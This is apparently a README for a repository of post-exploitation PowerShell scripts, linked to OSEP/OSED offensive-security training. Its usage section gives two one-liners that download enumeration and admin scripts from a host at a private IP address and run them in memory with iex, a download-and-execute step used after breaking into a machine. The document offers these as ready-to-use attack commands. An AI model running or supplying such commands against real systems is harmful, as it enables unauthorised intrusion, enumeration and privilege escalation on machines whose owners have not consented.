 # Name
Post Exploitation Scripts

## Usage
```
powershell -c "$r = iwr http://192.168.45.203/post_enum.ps1 -UseBasicParsing; $s = (New-Object System.IO.StreamReader($r.RawContentStream)).ReadToEnd(); iex $s"

powershell -c "$r = iwr http://192.168.45.203/post_admin.ps1 -UseBasicParsing; $s = (New-Object System.IO.StreamReader($r.RawContentStream)).ReadToEnd(); iex $s"
```

## Source
https://raw.githubusercontent.com/jayesther/OSEP_OSED_TOOLS/refs/heads/main/OSEP_enum.ps1

